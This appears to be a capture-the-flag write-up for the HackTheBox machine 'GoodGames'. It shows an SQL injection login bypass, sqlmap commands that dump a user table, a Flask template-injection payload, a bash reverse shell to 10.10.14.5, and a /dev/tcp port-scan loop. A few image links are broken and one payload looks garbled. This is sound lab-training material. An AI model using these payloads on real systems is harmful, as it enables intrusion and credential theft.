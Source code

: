 # nmap
## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/nmap%20port%20scan.png)

# gobuster
## gobuster main
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/gobuster-main.png)

# domain

## goodgame.htb/blog
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames.htb.blog.png)

## STORE: site is in progress, nothing interesting
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames.htb.coming-soon.png)

## Login Panel: goodgames.htb
## mail: @ is required and therefore not sqli testable --> intercept with burp 
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20login%20page.png)

Try simple sqli in login creds 
sqli:  'or 1=1-- -

## Intercept
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/burpsuite%20login%20intercept.png)

## Payload
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/burpsuite%20sqli%20success.png)

//Succesfull payload:   ' or 1=1-- -
## Succesfull login
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/domain%20login%20successful.png)

## Dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20dashboard.png)

## new subdomain: internal-administration.goodgames.htb
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20unknown%20host.png)

## Again a login
## Try creds found by sqlmap: admin:superadministrator
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/internal-administration.goodgames.htb.login.png)

# sqlmap
## dump databases
````
sqlmap -r request-login.txt --dbs

`````

## database snippet
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20databases.png)

## dump database main and its tables entrys
````
sqlmap -r request-login.txt -D main --tables

## speed it up

sqlmap -r request-login.txt --dbs --threads 10 --time-sec 1
`````

## database main tables
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20database%20main%20tables.png)
## dump user table
````
sqlmap -r request-login.txt -D main -T user --dump

## speed it up

sqlmap -r request-login.txt -D main -T user --dump --threads 10 --time-sec 1
`````
## receive creds from database
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20creds.png)

## crackstation
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/crackstation%20admin%20hash.png)

## internal.administration dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/internal%20admnistration%20dashboard.png)

## Flask application dashborar in settings: SSTI {{7*7}} = 49
![](Pasted image 20220913185124.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/ssti%20reflected.png)


![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/ssti%20payloads%20to%20rce.png)

ssti payload: make http server in www and host index.html file.
index.html content: 
````

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('10.10.14.7').read() }}

````
make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

![](python3 http server on port 80.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/docker%20shell.png)

## ls -la on entrypoint of shell shows dockerfile!
![](initial shell list files.png)
augustus got user name: 1000 --> docker?
## mount shows that the home directory is mounted
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/home.augustus%20is%20mounted.png)

## internal ip of docker: 172.19.0.2
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/shell%20list%20networks.png)


## nmap isnt installed on machine; make own bash script like this:
````
for port in $(seq 1 1000); do (echo "blah" > /dev/tcp/172.19.0.1/$port && echo "open - $port") 2>/dev/null; done

`````
## writes blah to the port and if succeeds (&&) it will print open port

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/bash%20custom%20port%20scanner.png)




XXXXXXXXXXXX